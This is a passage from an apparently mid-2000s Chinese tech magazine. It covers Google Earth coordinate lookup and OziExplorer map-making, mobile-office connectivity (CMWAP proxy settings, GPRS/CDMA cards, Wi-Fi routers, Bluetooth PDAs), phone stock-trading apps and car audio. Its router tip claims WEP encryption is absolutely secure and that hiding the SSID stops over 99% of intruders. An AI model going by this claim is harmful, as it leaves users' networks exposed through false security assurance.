利用 Google Earth，我们还可以反查经纬度：将目标位置拉至最大分辨率，并将其拉至中心位置，在右侧“Link to this page”处点击右键，选中复制快捷方式，在文本编辑工具，如记事本中粘贴，可以看到一个形如“http://maps.google.com/maps?ll=30.283084,104.174417&spn=0.004796,0.007918&t=k&hl=en”这样的地址，其中参数 ll，就是纬度与经度。利用这一功能；可以让我们方便的制作著名 GPS 软件：OziExplorer 用的地图。

首先要抓图，抓图时应将所有的 Layer 都取消，尽量保持图面清爽。而图标中的 Terrain（地势）一定要关闭，否则图面会因为高程显示而产生形变。为了保持截图的比例尺相同，我们必须取得一个一样的视高（眼高）。可在左上角的 Fly To 字段中输入任一地的地名（如 chengdu），它就会自动「飞」到该地名，并且停留在距地 1000M 的高空。这样抓下来的图，实测比例尺大约为五千分之一，能满足一般需求。

接下来只要按下键盘上的 Print Screen（屏幕抓图）键，就可以把图贴到 PhotoShop 再进行储存，储存格式最好是 BMP。图片抓完还需进行拼接，这就需要大家细心操作了。

最后看看如何在 Ozi 中使用拼接好的地图。先要对 Ozi 选项做些修正，以便和 Google Earth 使用相同的坐标格式，点选工具列“File / Configuration”。把 Lat/Long Display 改成 Deg Min Sec（度分秒）的格式。然后打开该地图，并使用我们获取的经纬度值，按照一般的方法对该图进行校准。校准完成后再使用转图软件 Img2ozf，将 BMP 原图转化为 Ozf 格式。转换完成后 OZI 就可以使用了（见图30）。

##### 3) 在 Google Earth 上查看图片 GPS 信息

现在有些数码相机，如尼康 D200 连接 GPS 卫星接收器后，可在拍照时将拍照点的经纬度等资讯同步写入照片的 EXIF 中，除了可以利用相应的软件查看这些信息外，很有其他有趣的应用。比如在著名的 http://maps.google.com/ 网站上直接输入经纬度，就可以看到拍摄地点的地图。如果你是用 GPS 接收机储存了航迹（比如 PPC 上有 GPS2GE 软件），那可以将航迹转成 KML 档，然后在 Google Earth 上显示路径与航点，回放你拍摄照片时走过的道路。

如果你安装有 IExif 这个软件用起来就更方便了，Opanda IExif 提供了查看数码照片 GPS 信息的功能，但在卫星地图定位技术成熟之前，用户能看到的，仅仅是一串串枯燥难懂的经度、纬度、海拔高度等专有地理名词和数据，难以与现实世界相联系。通过与 Google Maps 相结合，IExif 的 GPS 全球定位功能与现实世界紧密联系，当你在浏览含有 GPS 信息的数码照片的时候，只需轻轻一点，IExif 就会将你带到照片的原始拍摄现场，让你了解拍摄点周围的地理环境、人文景观。透过卫星地图，你能清楚地看见从太空拍到的卫星鸟瞰图，更可以详尽地查阅当地的街道，交通、建筑、气候、风景名胜等种种有趣的地理资讯。

运行 IExif 查看图像后，在 EXIF 信息列表栏中点击鼠标右键，选“定位查看 GPS 卫星地图”项，即可打开 Google Maps 卫星地图，在网络上看到包含 GPS 信息的图像后，可在图像上点击鼠标右键，选“定位查看 GPS 卫星地图”项，即可打开 Google Maps 卫星地图。也可在资源管理器中直接点击图像文件右键菜单，选“定位查看 GPS 卫星地图”项，即可打开 Google Maps 卫星地图。

## 移动办公

文 / 阿亮

世界范围内，移动办公员工数量持续保持高速增长，仅就美国而言，到 2008 年这一数字有望达到 1.03 亿人，占员工总数的比例达到 72%。IDC 亚太区的一项调查显示，来自该地区企业机构的 2000 名受访者中，70% 的人认为员工使用移动办公将可以降低成本和提高劳动生产率，从而提升公司效益。如今在国内，以 SOHO 为代表的移动办公族也逐渐发展壮大。一类是高效率的户外办公，另一类是结合炒股和电子商务交易娱乐式移动办公，这两大主流应用成为近期的绝对热门。

## 一、移动办公运筹帷幄：智能手机掌控一切

很多公司的领导们或是销售人员经常无法在公司办公，但是他们却必须与下属或客户时刻保持紧密联系。无论是利用 Email 还是 MSN 即时消息，都对保持联系非常重要。但是，如果在户外无法上网，将可能耽误很多事情。因此，移动办公商务解决方案的目标非常明确：能够在户外随时收发 Email 与 MSN 消息，并且查看 Word 文档或是 Excel 报表。

### 1. 移动办公环境：首选 Windows Mobile 智能手机

与传统手机相比，智能手机最大的特点不仅仅是操作系统，有扩展存储接口也是很重要的一点。但是，越来越复杂的操作系统需要占据更多存储空间，也需要更多内存支持。智能手机的结构甚至已经类似 PC，有其独立的 CPU、芯片组、内存以及外存储器。和所有移动设备一样，智能手机不可能配置硬盘，因此操作系统就安装在 ROM 中（也称为 FlashROM），一些随操作系统附送的软件也可能安装在 ROM 中。ROM 存储器的最大特点是不需要电力就可保存数据不丢失，而 RAM 则需要电力支持。至于数码存储卡扩展接口，其作用实际上与内存的 FlashROM 相同，只不过容量要大得多，而且速度稍微慢一些（见图1）。



目前，真正能够满足移动商务办公需要的智能手机，还是以 Windows Mobile 操作系统为主，微软针对该系统开发的 Outlook Express、MSN、Pocket Word 以及 Pocket Excel 程序都与日常台式机办公软件有着完美的兼容性。相对来说，以往被很多用户认为是办公首选的 Palm OS 或是 Symbian 操作系统并不合适。总之，被更多冠以娱乐成分的 Windows Mobile 智能手机其实更加适合移动商务办公，毕竟娱乐和商务本身并不冲突，更好的软件通用性才是关键。

由于软件架构上的巨大区别，Windows Mobile 智能手机与传统台式机上的应用程序差异较大。而且，即便是相同的 Word 文档，在 Windows Mobile 与台式机上的格式还是略有不同。显然，凭借智能手机如今的硬件水准，它还无法做到完全独立工作，因此借助台式机的帮助是十分必要的，这也是需要进行同步软件安装的原因。此时，微软推出的 ActiveSync 几乎是唯一选择。

首先，在不连接数据线的情况下直接安装 ActiveSync，随后可以看到桌面右下角出现一个小图标。大多数采用 USB 接口的智能手机，可以直接将数据线连上台式机背后的 USB 端口，系统会自动识别，并且 ActiveSync 也会自动激活，成为绿色图标。之所以要先安装 ActiveSync 后连接数据线，是因为 ActiveSync 包含了智能手机的驱动，只有在安装后才能让 Windows 识别出。当然，如果采用蓝牙或者红外线端口进行连接，那么必须在 ActiveSync 中手工启动。

同步完成之后，我们可以在 ActiveSync 对 IE 收藏夹、Outlook 文档等进行同步。如果有其它同步需求，也可以在此一一设定。不过，如果仅仅是简单拷贝一些 Word 文档或是 Excel 表格至智能手机，完全可以利用资源管理器，这样操作起来更为方便。

在 Windows 资源管理器中，我们可以看到“移动设备”，这就是智能手机的存储空间。通过复制粘贴或者简单的拖曳，我们可以完成数据交换。智能化的 ActiveSync 会在复制文件时自动转换格式，这点无需担心。此外，大家还可以把一些日常使用的重要文件都复制到智能手机中，在户外查阅资料将会非常方便（见图2）。



### 2. 解决上网难题

目前中国移动的 GPRS 有 2 个网关：CMWAP 和 CMNET 网关，其中 CMNET 可以进行所有网络应用没有任何限制，而 WAP 网关只负责连接 WAP 开头的网站，无法登录 WWW 网。电信运营商在大部分城市推出的所谓 GPRS 包月，指的是通过 CMWAP 网关发生的数据请求，也就是说如果不进行任何设置的话，我们只能使用有限的 WAP 站。为了突破限制，我们可以使用代理服务器，这样所有基于 CMNET 的数据请求都会转到 CMWAP，也就能够轻松连接 WWW 网站了，使用 HTTP 方式的博客也不再是难事。

不同手机的设置方法略有区别，但是大致都包含数据连接、菜单、编辑连接等选项。以多普达 535 手机为例，首先将拨号连接、VPN 连接、代理服务器连接、GPRS 连接的所有内容全删掉，这样可以避免误连 CMNET。手机内置的几个连接方案，对我们而言并非完全正确，因为我们还需要设置代理服务器。进入每个设置选项中的代理服务器选项，将代理地址设置为“10.0.0.172”。对于 WAP 连接，代理端口设置为“9201”，而 www 连接的代理端口为“80”。随后，直接在手机内置的浏览器中登录网站主页即可。

### 3. 体验移动 MSN 和移动邮件

对于用户而言，PICA 甚至可以看作是一个集合各种 IM 即时通讯软件的整体。先在 PC 上登录 pica.com 主页，进入首页导航条中的“快速下载”，我们可以根据自己使用的运营商以及手机型号来下载最合适的版本，这样可以免去很多设置上的麻烦。在确定好版本之后，PICA 允许用户将安装文件下载到 PC 上，然后通过数据线进行安装。当然，大家也可以在网站上直接填写手机号，PICA 会将该软件的 WAP 下载地址以短信形式发送到手机中。PICA 在安装后类似一个 IM 即时通讯软件，并整合了多种功能，包括移动 MSN。

尽管前面介绍的代理方法可以登录 www 网站，可以利用 web 方式收发 Email，但是这样的操作方法并不方便，因此接下来向大家推荐更好的解决方案。UCMAIL 是基于 Java 手机的移动邮件客户端，除了支持目前手机上基本的文本邮件信息收发功能外，UCMAIL 还支持包括多种图片、附件格式和 Html 邮件的阅读，甚至还支持超链接。UCMAIL 用户可以充分体会到在手机上收发邮件的乐趣，而且该软件是完全免费的。

UCMAIL 支持常用电子邮件账户（包括 HotMail 和 YahooMail）的智能配置。针对不同手机的差异，用户还可以个性化地进行邮件收发、存储、浏览等设置。用户也可以随时将信件通过彩信形式转发到指定的手机中。UCMAIL 是基于标准 Java MIDP1.0 编写的应用软件，理论上所有 Java 手机都可以安装 UCMAIL。UCMAIL 已经在超过 150 款主流 Java 手机上测试并正常运行。

首先可以使用手机自带的浏览器访问 http://wap.ucfly.com，选择合适的 UCMAIL 进行下载，下载完成后手机会自动安装应用。使用 UCMAIL 不会影响到手机本身的正常使用，在使用 UCMAIL 的过程中，可以照常接听电话和接收短信；UCMAIL 也不会导致手机出现关机或是死机的现象。

## 二、走到哪里都上网：最平实移动办公解决方案

对于平日出差频繁同时日常工作又不能放下的用户，因此配备笔记本电脑并实现上网是移动商务应用的基础。由于笔记本强大的处理能力，所以只要连接上网络，其实实际应用效果就和在办公室内使用差不多，可谓是最强大的移动商务解决方案。笔记本电脑结合 GPRS 无线网卡或是 CDMA 1X 无线网卡都是很轻松的户外上网方式，此外，通过迅驰笔记本的 WiFi 模块也能在宾馆、机场等地实现无线上网。

#### 1. 使用 GPRS 无线网卡

对于笔记本而言，采用 PCMCIA 接口来扩充无线网络非常方便，目前市场上采用此接口的 GPRS 无线网卡非常多，价格基本维持在 600 元左右。GPRS 无线网卡很像一部 GPRS 手机，也具备电话接听能力，并且需要插入中国移动的 SIM 卡。GPRS 无线网卡有专用的 PCMCIA 接口、驱动程序和拨号软件，整个配置过程十分轻松。

把 GPRS 无线网卡插入笔记本 PCMCIA 插槽之后，系统会自动识别新硬件。在放入驱动光盘，自动扫描驱动路径之后，系统会弹出 Modem 安装界面。安装过程可能会提示选择“与您的硬件最佳匹配的 Modem”，此时千万不要选择“标准 PC 卡调制解调器”，而是应当选取系统已经识别出的无线网卡设备。驱动成功安装完毕后，GPRS 无线网卡上的状态指示灯会从常亮转变为闪烁。在 GPRS 网络自动注册完成后，又会变成约每两秒急闪两下的状态。通常情况下，LED 状态灯始终急闪是表示 GSM 网络注册不正常；闪一下又停顿两秒则是表示 GSM 网络正常，GPRS 不正常；而 LED 状态灯始终常亮则说明是故障状态，最好立刻和销售商联系。

在正确安装 GPRS 无线网卡的驱动之后，就可以在系统属性中看见相关设备（见图3）。只有在保证这一点的前提下，才能进行下一步的设置。连接 GPRS 需要厂商特别提供的应用程序，因为 Windows 系统并未集成。安装好驱动仅仅是系统可以正确识别该网卡，而上 GPRS 网络则必须使用厂商提供的拨号程序。



识别无线网卡设备，要正常使用还需要光盘中自带的 WCM 无线通讯管理软件。启动后的 WCM 控制软件会出现在系统托盘中，初次使用需要创建一个新的连接。以熊猫 PM828 无线网卡为例，它同时支持 GPRS 和 GSM 标准。在 GPRS 连接方式中，中国移动用户 APN 接入点名称要设置成 CMNET，至于 DNS（域名服务器）、IP 地址以及用户名、密码等设置基本上不用更改，具体详情可以向本地移动公司咨询。

#### 2. 使用 CDMA 无线网卡

目前直接内置 CDMA 1X 的笔记本还不多见，由于 CDMA 网络在欧美并不普及，因此也很难看到采用 PCMCIA 或者 SD 接口的 CDMA 1X 无线上网卡，大多数产品都采用笔记本专用的 PCMCIA 接口或者 USB 接口。市场上普及的 CDMA 1X 无线上网卡大约为 2000 元出头。

以中兴 MC310 CDMA 1X 无线网卡为例，卡身和普通的 PCMCIA 卡没有区别，只是外露出一小块曲线的东西，主要作用是信号接收和发送，指示灯在有信息流量通过时就会闪烁。在 Windows 操作系统下，MC310 只要将驱动安装好即可进行无线上网。利用与驱动整合的无线冲浪软件，点击主界面上“打开浏览器”的图标，只需等待 5~6 秒钟，立刻就能登录因特网。更为令人满意的是，MC310 可以根据当地网络情况以及手机卡号自动设置用户名、密码、拨号号码等，用户所要做的仅仅是点击一下鼠标，就可以方便地在因特网上畅游。

#### 3. 体验电信“天翼通”

对于安装无线网络模块的笔记本用户，使用“天翼通”业务无疑是最佳的无线广域接入解决方案。与传统的 WAP 或者 GPRS 相比，基于 WIFI 技术的“天翼通”在速度上具有很大的优势，目前这项服务已经在不少大中城市得到推广。无线用户只需将 ESSID 值设定为当地无线接入点提供的指定值，即可在一定范围内自由移动上网，不受时间和空间的限制，轻松实现无线接入互联网、无线宽带浏览、无线 Email 收发等等。更可以实现移动办公，随时随地登录公司局域网与同事研讨或共享某些内容，并且具有实施简便、费用经济、携带方便等特点。

从价格以及速度来看，“天翼通”确实是最佳选择，在网络覆盖范围内，速度完全达到宽带网的需求。然而遗憾的是，目前“天翼通”网络覆盖的范围还不大，仅仅在一些体育场馆、宾馆、机场、咖啡馆等地有效。从技术上说，铺设“天翼通”网点的难度并不高，但是在发展初期时，用户数量较少，因此电信运营商并不愿意投入巨大的资本。

#### 4. 无线上网卡选购要素

##### （1）接口之选：PCMCIA 最合适

和其他很多外设一样，选购无线上网卡也需要在接口方面多加考虑。目前，无线上网卡主要采用 PCMCIA、CF 以及 USB 接口，此外也有极少数产品采用 SD 接口或是 Express Card 接口。PCMCIA 得到几乎所有笔记本电脑的支持，而且其接口带宽基于 PCI 总线，速度表现自然最为出色。不过平心而论，低带宽需求的无线上网卡，不会对接口带宽提出高要求。PCMCIA 的优势在于实际使用时，可以让无线上网卡完全插入笔记本插槽的内部，基本不会有突出的部分，这样无疑更加安全，不会因为一些意外情况而遭到碰撞。

CF 接口比 PCMCIA 接口更加小巧，而且通过一款几十元的转接器就能转换成 PCMCIA 接口，因此也被誉为是无线上网卡的最佳接口。当然，选择 CF 接口并不是为了配合笔记本电脑，而是给 PDA 以及 UMPC 等设备带来方便。如今，很多 PDA 都带有 CF 接口，而且支持数据传输功能，结合无线上网卡就能实现很不错的户外移动上网应用（见图4）。



相对来说，USB 接口却并非是理想的选择。以配合笔记本电脑应用为例，USB 接口的设备必然无法做到完全插入，一旦发生意外的磕碰，很容易把无线上网卡弄坏。此外，一般 PCMCIA 以及 CF 接口的产品，总是更多地为低功耗设计考虑，而 USB 接口的产品似乎更加偏向于台式机应用，因此往往功耗控制更差一些。当然，选择 USB 接口的无线上网卡也不是没有好处，灵活兼容于台式机与笔记本电脑，这是它最大的诱惑力。

至于 SD 接口或是 Express card 接口的产品，建议大家暂时不用考虑。SD 接口的无线上网卡，要求设备具有 SDIO 接口，这只有少数 PDA 支持，而且价格不菲。至于 Express card 接口，虽说它取代 PCMCIA 接口的长远趋势毋庸置疑，但是至少在目前还显得太过超前。

##### （2）天线选择：可伸缩式最理想

天线是大家在选购无线上网卡时容易忽视的细节，但它却在实际使用中关系到可靠性与稳定性。市场上的无线上网卡天线分为可伸缩式、可分离拆卸式以及固定式。毫无疑问，前者使用起来是作为方便的，在不使用时可以收起来，不仅不影响美观性，而且避免在遭到磕碰时弄坏；可分离拆卸式是避免磕碰损坏的最佳方案，而且万一弄坏也能很方便地买到备用天线。不过，可分离拆卸式天线最大的不便在于难以保管，很容易丢失。当然，部分无线上网卡在信号较好的情况下，即便不使用天线也能正常上网；至于固定式天线，大家一定要看看是软天线还是硬天线。软天线一般可以弯折，不容易损坏，而如果是硬天线，那可就得小心看护了。

##### （3）传输稳定性与散热表现

决定无线上网卡传输速率和稳定性的关键在于发射芯片。由于目前全球发射模块被几大厂商所垄断，因此不同产品之间的差距实际上并不大。如同手机信号强弱一样，不同的无线上网卡在弱信号处的数据收发能力稍有区别，这与厂商不敢贸然加大发射功率有一定的关系。一般而言，厂商并不会公开无线上网卡的发射功率，因此大家只能根据产品实际试用情况来选择。
不过可以肯定的是，现在市面上流行的正规品牌产品中，发射功率基本都是相同的，毕竟厂商也需要遵循信产部的相关标准。但是，在购买一些水货或是工包产品，就得小心一些了，毕竟国内的信号并不如国外那样好，过分注重低发射功率的健康保护也会给户外上网带来一些麻烦。
稳定性是我们另外需要关注的焦点。由于驱动和应用软件方面造成的不稳定因素基本不存在，因为相关驱动的核心内容都是由发射芯片厂商统一提供，而软件开发也不会有太高的技术难度和瓶颈。相对来说，发热量更是我们关心的重点。在狭小的 PCMCIA 插槽中，无线上网卡如果连续长时间使用，其发热量必须足够小，否则就容易导致产品加速老化，甚至频繁掉线。

##### 小贴士：不同价位的无线上网卡到底差距大不大

如果一直关注无线上网卡市场，大家一定会发现一年前 CDMA 1X 无线上网卡的平均价格几乎是 GPRS 无线上网卡的一倍，但如今 CDMA 1X 无线上网卡反而成为了廉价的代名词。之所以出现这样的情况，主要还在于发射芯片的大幅度降价以及整个行业的激烈竞争。在选购无线上网卡时，不少消费者担心低价位的产品可能存在连接速度偏慢或者不稳定等瑕疵，但事实上这是杞人忧天。作为电子产品，更高的封装集成度带来更低的成本，这是永恒不变的规律。如今，很多低价位产品正是使用了高集成度芯片来冲击市场，此时整体表现依然非常出色。所不同的是，这类产品往往更加务实，譬如 GPRS 无线上网卡舍去在国内无法使用的 EDGE 技术（用于实现 247 Kbps 接入），其实并不会影响实际使用效果。

## 三、室内无线上网：最惬意的无线办公

很多人都处于这样一个办公环境中：经常在公司里接待一些大客户，或是家里直接进行 SOHO 办公，此时笔记本电脑几乎是最常见的展示方法。无论是报价、产品信息还是其它资料，都通过笔记本和客户交流沟通。不过，由于办公室面积一般都不小，而使用时可能在会议室，或者是在办公桌等其它地方，如此不固定的位置自然令网络布线十分麻烦，频繁插拔网线经常会带来很多尴尬。然而，这种情形在运用无线网络技术之后，就会得到彻底改变。

### 1. 配置 WiFi 无线宽带路由器

无线路由器是 WIFI 无线局域网的基础，目前大多数主流产品都直接具备宽带网接入功能，并集成多个 RJ45 有线网络端口。不仅可以方便地让台式机实现有线局域网，还可以使用更为简洁的 WIFI 技术，可谓解决了所有的后顾之忧。每台无线路由器都有自身固定的 IP 地址，一般也正是通过对这一 IP 地址访问来配置无线路由器的各项测试。

以 AboveCable 的 1100 无线路由器为例，其 IP 地址为 192.168.168.230，当然，不同品牌型号无线路由器的 IP 地址不尽相同，需要参阅厂商的技术资料。为了能够访问无线路由器的 IP 地址，必须使与之连接的网卡处于同一 IP 网段，在此例中便是将网卡 IP 指定为 192.168.168.3（192.168.168.XXX 都可以）。
打开 Web 浏览器，在地址栏中打入无线路由器的地址，此时系统会要求输入登陆密码。一般而言，该密码可以在产品的说明书上查询到。对于一个新的没有设置过的路由器，会出现设置向导（Setup Wizard）。在 Connection Profile Configuration 页面可以选定宽带网的类型，一般 ADSL 选择 via PPP over Ethernet，而 Cable 或者 FTTB 选择 via DHCP（见图 5）。如果 ISP 需要输入用户名和密码，则在下面的相应位置输入，并且将 Timeout（即无数据请求时断线）设定为 120s 左右。随后设置无线路由器的 ESSID 值，这也是无线客户端接入的密码。在设置完成后，使用迅驰笔记本都可以直接搜索到该无线网络，在输入 ESSID 值之后便可以轻松上网。



#### 小贴士：确保公司机密

尽管媒体一度对 WiFi 标准中的 WEP 技术持有怀疑态度，并不断有消息报道其安全隐患。但事实上，民用场合下 WEP 技术是绝对安全的（见图 6）。几乎所有的无线宽带路由器都支持 WEP 加密，设置方法是在其界面的安全选项中激活 WEP 功能。WEP 密钥分为 16 进制数字或是 ASCII 码两种，相对应的密钥长度也有所不同，大家可以直接设置（过长或过短都无法通过）。随后，客户端在搜索无线网络时便会发现无法直接连接，提示需要输入密码。

除了使用WEP技术，大家还可以关闭无线宽带路由器的SSID广播，这样可以让企图“免费”使用的外来者难以发现，而自己则需要牢记SSID字段，在客户端中直接输入便可以轻松上网。虽说这种方法的可靠性非常低，但是假如没有涉密需求的话，这一招几乎可以挡住99%以上的非法用户，而且不会因为开启WEP功能而降低无线网络速度。

## 2. 蓝牙PDA无线上网

很多人经常需要在家办公；或者在周末时彻底放松并享受美好时光，因此，可以考虑购买一部PDA，也实现了无线上网。随着PDA功能的不断增强以及价格下调，普及度已经不断提高。但遗憾的是，使用PDA上网并不怎么方便，尽管它已经附送了56K Modem，使用起来还是感觉太慢，而且往往需要安装厚重的CF夹克以及不多见的CF Modem。

事实上，大多数PDA用户都有台式机，并且基本上都能使用宽带连接Internet，速度与费用都令人十分满意。要做到使用PDA上网并不困难，而且PDA这类移动产品将便携性看得很重，也不太适合以有线方式来连接网络。利用台式机与PDA组成小型网络，我们可以轻松地使用PDA上网，躺在床上收发邮件、或是使用IM即时通讯软件沟通都很方便。

首先，打开PDA上的蓝牙管理器，新建一个连接并且选择蓝牙同步。此时系统会直接进入下一步搜寻界面，等待蓝牙管理器找到要配对的设备。接着打开台式机或者笔记本上的蓝牙功能，两款设备便可以互相查找到，在输入配对码后就能连接。配对工作完成后，还要设置串口参数，不同的蓝牙适配器串口参数也不同，这些都在PC蓝牙驱动的属性里可以看到（见图7）。



图7 为PDA和笔记本的蓝牙设备配对

最后一步操作非常简单，直接在ActiveSync中选择对应串口并同步即可，接下来就可以很方便地无线上网，没有任何限制。

### 3. 无线影音享受

所谓无线家庭影院，是以红外线、蓝牙和WiFi无线信号传送，替代家庭影院主机与音箱之间的线缆连接。因此，与传统家庭影院不同，无线家庭影院必须配置无线发射及接收装置，主机会先将需要输出的音频信号进行转换，通过无线方式进行发射；而具有信号接收功能的无线音箱，则在接收信号后分离出音频信号，然后将信号放大并推动音箱扬声器发出声音。

以夏新Pro-28为例，这是国内第一款无线环绕家庭影院。Pro-28标准配置52英寸DLP背投彩电DL52HWT、一台Pro-28 I功放、Pro-260F主音箱2只、Pro-260C中置音箱1只、Pro-260SR无线环绕音箱2只、Pro-200SW超重低音1只。这一产品所采用的无线环绕系统是普通无线发射和接收器所无法比拟的，其信号接收范围可达10米，信噪比也达到了90dB以上。它的全数字信号发射和接收处理不仅音质还原性好，噪声小，而且无线环绕发射的音频信号频宽达到20Hz-20kHz。

## 四、轻轻松松户外炒股

击破2245点沪指历史高位之后，沪深A股直冲4000点的牛市让所有人都感到精神振奋，但是对于那些上班族以及常在户外工作的股民而言，无法时刻掌握行情、无法即时操作股票无疑是最“郁闷”的事情。以往，有人使用笔记本配合无线网卡，但是这种方案实际可操作性不高，随身带着一个笔记本还是比较累的，而且在大庭广众之下也不方便时刻打开笔记本和股票软件。所以，使用智能手机炒股，是比较理想的方案。

### 1. 手机上网炒股的三大方式

尽管手机上网的速度一直被使用者批评，但是对于股票软件而言，本身占用的网络带宽非常少，因此配合智能手机的上网方式正好合适。目前，可供选择的手机上网方式比较多，除了WAP以及GPRS/CDMA以外，WiFi无线网络也算是很不错的解决方案。当然，大家在选择上网方式的同时，还必须对股票软件的平台进行综合考虑，并不是每个平台都有合适的股票软件。

#### （1）WAP方式

WAP方式有着很明显的成本优势，因为现在移动和联通都开通了WAP包月服务，只要10～20元就能轻松畅游所有WAP开头的网站。事实上，WAP和GPRS技术基本上没有区别，只不过速度被人为限制并且无法访问部分站点。现在移动和联通都在暗自较劲，因此可供使用的代理服务器一直比较稳定，WAP上网方式可以直接访问部分股票软件所需要的站点，不会有任何影响。当然，部分地区支持GPRS 10MB左右的流量包月，那也足够股票软件使用了，这可谓是最理想的选择。对于大多数用户而言，这是最合适的手机炒股方式，因为很多股票软件都基于Windows Mobile的智能手机平台，而这类手机恰恰对WAP上网有比较好的支持。

**小贴士：如何避免产生GPRS流量资费**

部分用户在尝试WAP包月服务时，不小心使用了CMNET接入点，此时所产生的GPRS资费将按照流量来计算，费用相当惊人。事实上，大家完全可以避免这种情况，其关键便是将手机中所有接入点都改为CMWAP，删除所有CMNET的接入点设置，这样即使不小心启动了网络连接，也只会通过CMWAP接入点上网，不会产生巨额流量费。有CMNET接入点，这样就再也不用担心了。至于部分地区的移动用户，还可以通过拨打10086来关闭CMNET接入点，只保留CMWAP接入点，这样就万无一失了。

##### 开通手机的数据服务功能

在默认状态下，GPRS手机并未开通GPRS功能，需要联系当地服务商以确认开通该项服务。以索爱T628为例，在主菜单界面中依次选择“连接”→“数据通信”→“数据账户”→“添加账户”→“GPRS数据”，随便建立一个名称后直接保存。接着选择建立的名称，设置“APN”，设置为“CMWAP”表示只访问WAP网关；而“CMNET”表示所有GPRS网关。（见图8）。至于用户标识、密码、密码请求等都可以选择为关闭。此外，IP地址和DNS地址都可以不用设定。当然，不同手机的设置方法可能不完全相同，但是其基本步骤是相通的，大家可以举一反三。



#### （2）CDMA方式

CDMA 1X上网的速度以及稳定性，理论上都高于GPRS和WAP，但是由于现在CDMA智能手机寥寥无几，因此在进行手机炒股时，只能依赖于一些基于JAVA平台的软件。虽说很多JAVA平台的股票软件表现都不错，可是稳定性以及速度比起智能手机平台的软件还是有一定差距。此外，很多中小城市的CDMA网络不太稳定，要是出差在外而无法看到行情或是买卖操作，那就非常让人着急了。

#### （3）WiFi方式

使用WiFi上网，无疑有很高的稳定性与连接速度，现在少数智能手机已经可以支持WiFi无线网络，这可谓是最佳选择。在很多办公楼里，我们都可以搜索到免费WiFi无线网络接入点，包括餐厅、商场、机场，这些都是存在WiFi信号的地方。当然，使用WiFi上网炒股还有一个最大的优势，那就是可以在办公室里用最“神出鬼没”的方式来炒股，那种偷着乐的趣味只有亲身体验才能感受到。

### 2. 用什么软件来炒股

在实现手机上网之后，我们还需要选择一款合适的股票信息查询软件以及在线交易软件。客观而言，目前免费的股票信息查询软件还是不少，下面会给大家进行推荐；在我们进行在线交易时，一般还要试用付费软件。

#### （1）JAVA平台的首选：同花顺

“同花顺”是比较流行的一款股票软件，如今也有了专门针对手机的版本。由于手机版同花顺软件基于JAVA平台，因此几乎兼容所有主流手机。这款JAVA软件需要配合手机WAP上网，因此所使用的手机至少应具备彩屏以及GPRS功能。另外，CDMA用户也可以使用这款软件（见图9）。



不间断地实时显示行情，还能将完整的历史行情显示出来。在实现这两大基本功能的同时，还充分考虑到软件的易用性，按股民的操作习惯，为大多数界面设计了丰富的标签，用户可以通过左右键灵活地选择。

与其它简单的手机版股票软件相比，同花顺的另外一个优势便是支持K线图显示，而且能够看到均线、KDJ、MACD等重要技术指标，还实现了综合排名和自选列表等功能。但是，如果想要使用手机版同花顺软件进行在线交易，那么就得支付年费。目前，手机版同花顺软件针对新注册用户提供一个月的免费在线交易试用，此后就要按照每年200元的年费进行支付（见图10）。



#### （2）Windows Mobile平台：华证掌上通

对于使用Windows Mobile智能手机的用户，使用JAVA程序反而不是很方便，甚至老的机型还得安装JAVA模拟器，而且JAVA运行速度也比较慢。对于这类用户，我们推荐更加有平台贴合性的华证掌上通。这款手机版股票软件只能运行在使用Windows Mobile系统的智能手机（包含老版本的SmartPhone），下载地址为http://soft.cool-net.cn/Software_File/win_phone/finance/stock2004.rar。通过台式机的ActiveSync同步软件安装该软件，然后就可以使用最普通的软件调用方式来打开华证掌上通。

与普通的手机版股票软件相比，华证掌上通的优势在于速度快而且可以实时查看K线图以及财务资料。当然，这款软件最大的缺点是还无法支持在线交易，大家只能通过电话委托方式来实现买卖操作（见图11）。



为了保险起见，建议大家登陆http://mobile.10jqka.com.cn/wap.php后，根据所使用手机型号来选择最合适的版本。手机版同花顺软件的基本功能非常齐全，能够不间断地实时显示行情，还能将完整的历史行情显示出来。在实现这两大基本功能的同时，还充分考虑到软件的易用性，按股民的操作习惯，为大多数界面设计了丰富的标签，用户可以通过左右键灵活地选择。

在不知不觉中，网络已经成为我们生活与工作中不可缺少的媒介。在保证传输速度与网络兼容性的前提下，摆脱网线的束缚一直是用户的梦想。毫无疑问，无线网络正是在这样的背景下应运而生。随着GPRS、WiFi、蓝牙等新潮无线网络技术和终端设备的不断普及，移动办公已经触及到我们生活中的方方面面。

# 车载电子 大玩家

文/龚师傅

随着经济发展，有车的人也越来越多了。在这个信息化时代，IT 产品正在全方位渗入我们生活的每一寸空间，汽车更是与 IT 产品发生着全面的亲密接触。对普通汽车而言，不断涌现出的各种车载电子产品更加注重实用性和娱乐性，为我们旅程增添色彩，为开车带来更多乐趣，同时汽车也为我们玩电子产品提供了方便(不用担心负重和供电的问题)。

## 一、车载影音系统

伴随着私家车火爆，汽车数码娱乐也越来越受到关注，其中车载影音系统更是普遍受到许多车主的欢迎，成为汽车娱乐的时尚新潮流。

### 1.原车音响系统改造

现在大多数汽车配置的音响主机都只能播放 CD 音乐碟片，有些甚至只能播放录音卡带。因此让汽车音响能播放现在最为流行的 MP3 音乐就是音响系统改造的第一步。要实现这一要求的方法很多。最简单就是给普通 MP3 播放机配上一个车载调频发射器，即可通过原车调频收音机无线接收 MP3 音乐。这种方法实现成本低，不需要对硬件作任何改动。但是该方法效果较差，不适合对音乐品质有较高要求的朋友采用。另外现在有些号称“专用车载 MP3 播放器”的产品，其实就是内置了调频发射器而已。购买调频发射器要注意是否采用全频段发射设计，以及是否支持真立体声发射。二是改装原车主机，找到里面信号输入的部分，引出线来接上一个 3.5mm 的标准耳机插座就可以了，这样效果要比使用发射器好很多(见图 1)。三是更换主机，更换为带有 3.5mm 标准耳机输入接口的产品，或者直接支持 MP3 CD 碟片播放，甚至支持存储卡的主机。现在索尼、松下、先锋、JVC 等汽车音响大牌厂家的机头都可以播放 MP3 了。有些更是集调频、CD、MP3、U 盘、存储卡等功能于一身，如 ISTEC（艾斯特）数码汽车音响。四是使用其他辅助设备，比较典型的是与 iPod 配套的蓝牙底座，可以让 iPod 音乐播放器和车载蓝牙汽车音响系统连接，播放存储在 iPod 当中的歌曲（见图 2、图 3）。







